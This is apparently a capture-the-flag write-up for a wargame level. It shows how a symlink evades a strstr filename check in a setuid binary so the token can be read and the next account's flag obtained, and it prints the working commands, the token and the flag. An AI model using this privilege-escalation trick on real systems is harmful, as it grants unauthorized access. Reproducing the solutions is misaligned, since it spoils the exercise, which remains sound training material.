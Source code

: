 In our home directory, we see an executable with suid/guid, as well as a token file we don't have access to:
        >$ ls -l
        total 16
        -rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
        -rw-------  1 flag08 flag08    26 Mar  5  2016 token
        >$ ./level08
        ./level08 [file to read]

If we try with a file we own, the executable displays its content:
        >$ echo 'hi' > /tmp/test && ./level08 /tmp/test
        hi

But it won't work with the token file:
        >$ ./level08 token
        You may not access 'token'

If we execute the program and inspect it with gdb:
        >$ gdb level08
        >$ (gdb) disass main
        0x080485af <+91>:	mov    DWORD PTR [esp+0x4],0x8048793 <---- "token"
        0x080485b7 <+99>:	mov    DWORD PTR [esp],eax
        0x080485ba <+102>:	call   0x8048400 <strstr@plt>
we see that it try to find the substring "token" using strstr function to check if the user try to open the file 'token'. We can bypass this protection with a symbolic link who don't have the string "token" in his absolute path:
        >$ ln -s $(pwd)/token /tmp/link
        >$ ls -l /tmp/link
        lrwxrwxrwx 1 level08 level08 24 Jun  7 20:21 /tmp/link -> /home/user/level08/token

Now if we run the program with this file:
        >$ ./level08 /tmp/link
        quif5eloekouj29ke0vouxean
we use this token as passwrod on 'su flag08' then we get the flag: 25749xKZ8L7DkSCwJkT9dyv6f

Vulnerability:
No check on real user => Privilege escalation via symlink
